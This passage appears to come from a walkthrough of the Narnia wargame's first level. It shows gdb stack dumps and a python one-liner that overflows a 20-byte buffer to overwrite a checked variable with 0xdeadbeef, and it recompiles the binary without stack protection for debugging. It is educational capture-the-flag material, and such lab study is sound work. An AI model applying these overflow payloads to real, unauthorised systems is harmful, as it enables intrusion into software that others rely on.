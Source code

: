 ```
0x7fffffffe4e0:	0x00000000	0x00000000	0xffffe5b8	0x00007fff
0x7fffffffe4f0:	0x00000000	0x00000001	0x004006ed	0x00000000
0x7fffffffe500:	0x00000000	0x00000000	0x47dc9386	0x6163f3c9
0x7fffffffe510:	0x00400600	0x00000000	0xffffe5b0	0x00007fff
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x819c9386	0x9e9c0cb6	0xe78c9386	0x9e9c1c0c
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe560:	0x004006ed	0x00000000	0x00400830	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe580:	0x00400600	0x00000000	0xffffe5b0	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0x00400629	0x00000000
```
Overflowing `buf` we can rewrite the `val` value:
```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ python -c 'print("B"*20  +"\xef\xbe\xad\xde")' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef

```

Yet, nothing happens.

Let's debug it out to check what's going on in more detail:
```bash
export DIR=$(mktemp -d)
cd $DIR
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ python -c 'print("B"*20  +"\xef\xbe\xad\xde")' > input
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ cp /narnia/narnia0 .
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ cp /narnia/narnia0.c .
# compile without stack protection mechanisms
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ gcc -g narnia0.c -o narnia0gdb -fno-stack-protector -z execstack
# debug it
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ gdb narnia0gdb
(gdb) b 30
Breakpoint 1 at 0x400759: file narnia0.c, line 30.
(gdb) r < input
Starting program: /tmp/tmp.S0yOD98OVW/narnia0gdb < input
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0x41414100

Breakpoint 1, main () at narnia0.c:30
30		if(val==0xdeadbeef){
(gdb) x/64x $rsp
0x7fffffffe480:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe490:	0x42424242	0xdeadbeef	0x41414100	0x00000000
0x7fffffffe4a0:	0xffffe590	0x00007fff	0x00000000	0x00000000
0x7fffffffe4b0:	0x004007c0	0x00000000	0xf7a2d830	0x00007fff
0x7fffffffe4c0:	0x00000000	0x00000000	0xffffe598	0x00007fff
0x7fffffffe4d0:	0x00000000	0x00000001	0x004006ed	0x00000000
0x7fffffffe4e0:	0x00000000	0x00000000	0x623e0e6c	0x8f1a718d
0x7fffffffe4f0:	0x00400600	0x00000000	0xffffe590	0x00007fff
0x7fffffffe500:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe510:	0xa43e0e6c	0x70e58ef2	0xc26e0e6c	0x70e59e48
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe540:	0x004006ed	0x00000000	0x00400830	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00400600	0x00000000	0xffffe590	0x00007fff
0x7fffffffe570:	0x00000000	0x00000000	0x00400629	0x00000000
```